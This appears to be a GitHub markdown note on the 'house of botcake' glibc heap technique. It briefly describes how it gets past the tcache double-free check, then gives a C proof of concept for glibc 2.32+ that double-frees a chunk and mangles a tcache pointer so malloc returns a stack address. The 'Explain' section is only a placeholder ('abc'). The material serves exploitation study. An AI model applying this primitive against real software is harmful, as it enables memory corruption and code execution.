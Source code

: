 <details>
<summary><strong>Description</strong></summary>
<p>

A new [patch](https://sourceware.org/git/?p=glibc.git;a=commit;h=bcdaad21d4635931d1bd3b54a7894276925d081d) to restrict tcache double free...
> **TL;DR**:  when the chunk goes to tcache, chunk's `bk ptr` will be assign to key (point to tcache_per_thread (old libc) or random (new libc)) value. Whenever the program try to free a chunk, it will check if that chunk has key value assigned, if yes -> probably a double free...

house of botcake core mindset is to find a way modify key value, bypass this restriction...

</p>
</details>

### For `2.32+` versions

<details>
<summary><strong>POC</strong></summary>
<p>

> I compiled this with glibc `2.39`

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long stack_var[4], *x[7];

    for(int i = 0; i < 7; i++) x[i] = malloc(0x100);
    long *prev = malloc(0x100);
    long *a = malloc(0x100); // chunk for later cosolidation
    malloc(0x10); // padding chunk, prevent consolidation

    // cause chunk overlapping
    for(int i = 0; i < 7; i++) free(x[i]); // fill tcache

    free(a); // free victim chunk, goes to unsortedbin
    free(prev); // free previous chunk, make it consolidate with victim chunk
    malloc(0x100); // add the victim chunk to tcache list by taking one out from it and free victim again

    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/

    long *unsorted = malloc(0x100 + 0x100 + 0x10);
    unsorted[0x110/8] = (long)stack_var ^ ((long)a >> 12); // mangle the pointer since glibc 2.32

    a = malloc(0x100); // get back victim chunk from tcache -> this will put target to tcache top
    long *target = malloc(0x100); // malloc arbitrary address
    target[0] = 0xcafebabe;

    printf("target @ %p == stack_var @ %p\n", target, stack_var);
    printf("stack_var's value: 0x%lx\n", stack_var[0]);
    return 0;
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

abc

</p>
</details>